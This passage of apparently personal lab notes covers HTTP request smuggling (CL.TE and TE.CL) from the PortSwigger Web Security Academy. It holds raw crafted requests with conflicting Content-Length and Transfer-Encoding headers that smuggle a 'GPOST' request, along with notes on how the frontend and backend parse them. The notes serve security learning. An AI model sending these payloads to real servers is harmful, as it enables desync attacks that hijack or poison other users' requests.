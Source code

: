 ```
GPOST /post/comment HTTP/1.1

csrf=ZCSVB7nSo5MyKE8jiWlQTC9hoqPtSYY0&postId=3&comment=asd&name=asd&email=asd%40asd.cm&website=https%3A%2F%2Fasd.com

```

- Frontend processes the first 118 bytes from 0 as the message body

  ```
  0

  GPOST /post/comment HTTP/1.1

  csrf=ZCSVB7nSo5MyKE8jiWlQTC9hoqPtSYY0&postId=3&comment=asd&name=asd&email=asd%40asd.cm&website=https%3A%2F%2Fasd.com
  ```

- Backend processes the message body as chunks

  1. Message body starts of with 0 which is a terminator, hence chunk ends

    - https://en.wikipedia.org/wiki/Chunked_transfer_encoding

    - https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Transfer-Encoding#

  2. Moves on to the second part of the message body, backend interprets the next chunk as a request

  3. Prepends next request with the next chunk

    ```
    GPOST /post/comment HTTP/1.1

    csrf=ZCSVB7nSo5MyKE8jiWlQTC9hoqPtSYY0&postId=3&comment=asd&name=asd&email=asd%40asd.cm&website=https%3A%2F%2Fasd.com
    ```

### HTTP request smuggling, basic TE.CL vulnerability

```
POST /post/comment HTTP/1.1
Host: 0ab1008e04dc7154c030e582005f00a8.web-security-academy.net
Cookie: session=pPd4pXO2E5cenmSNs56iE4ga8PDN0lWO
Content-Length: 4
Transfer-Encoding: chunked
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0ab1008e04dc7154c030e582005f00a8.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ab1008e04dc7154c030e582005f00a8.web-security-academy.net/post?postId=4
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

1E
GPOST /post/comment HTTP/1.1

```